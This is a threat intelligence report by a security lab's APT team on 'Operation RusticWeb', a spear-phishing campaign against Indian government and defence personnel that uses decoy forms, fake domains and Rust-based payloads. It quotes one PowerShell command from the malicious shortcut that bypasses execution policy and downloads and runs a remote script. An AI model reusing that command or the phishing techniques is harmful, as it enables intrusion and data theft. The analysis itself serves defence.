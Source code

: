 

					Operation RusticWeb targets Indian Govt: From Rust-based malware to Web-service exfiltration				
Written by Sathwik Ram Prakki


 


  APT, Government, Spear Phishing





 
Estimated reading time: 13 minutesSEQRITE Labs APT-Team has uncovered a phishing campaign targeting various Indian government personnel since October 2023. We have also identified targeting of both government and private entities in the defence sector over December. New Rust-based payloads and encrypted PowerShell commands have been utilized to exfiltrate confidential documents to a web-based service engine, instead of a dedicated command-and-control (C2) server. With actively modifying its arsenal, it has also used fake domains to host malicious payloads and decoy files. Below are few names of domains and sample baits used in this campaign:

IPR form of Department of Personnel & Training, specific to IAS officers
Fake domain mimicking Army Welfare Education Society (AWES)
Stats report of Assam CDR by Kailash Satyarthi Children’s Foundation
Another fake domain mimicking Parichay, a Government SSO platform
Nomination form for Defence Services Officers Provident (DSOP) Fund
Presentation on the quarterly brief of initiatives with the Ministry of Defence

This campaign is tracked as Operation RusticWeb, where multiple TTPs overlap with Pakistan-linked APT groups – Transparent Tribe (APT36) and SideCopy. It also has similarities with Operation Armor Piercer report released by Cisco in 2021, and the targeting with the ESSA scholarship form of AWES was observed by our team back in the same year.
Threat actors have begun moving from well-known compiled languages to newer ones like Golang, Rust, and Nim. This provides cross-compatibility and also makes detection difficult at the same time. Recent examples of Golang malware analyzed by our team are the Windows-based Warp malware ecosystem that uses a Telegram bot as C2 and a Linux-based stager payload of Ares RAT. At the same time, various ransomware (RaaS) operators have migrated from Golang to Rust as it provides high-performance encryption and evasion speed while ensuring memory safety.
Infection Chain 1
The first infection observed heavily relies on Rust-based payloads that are used for enumerating the file system. A malicious shortcut file starts an infection where a fake domain of AWES is utilized to drop these payloads and exfiltrate data to a file sharing web-service.

Fig. 1 – Infection Chain (1)
The attacker targets the victim via spear-phishing leading to an archive file named “IPR_2023-24”. This contains a Windows shortcut file masquerading as a PDF file using a double extension format. The comment name suggests the bait to be a form related to IPR.

Fig. 2 – Malicious Shortcut file




C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep Bypass -nop -c “iwr ‘hxxps://rb[.]gy/gbfsi’ -OutFile $env:USERPROFILE\Documents\file.ps1; & $env:USERPROFILE\Documents\file.ps1”



Opening this triggers PowerShell to download and execute a script from the rb[.]gy domain, a free URL shortener. Command-line parameters to bypass the execution policy with no profile are used to download the PS1 script using Invoke-WebRequest.
Victimology
Based on the shortened URL, we can check the stats for a number of clicks and the country where the click has originated using their tracker. The campaign went live at the end of September and a lot of activity can be seen in October, with 26.53% of them being from India alone. This doesn’t account for confirmed victimology but gives an overview of the targeted victim.
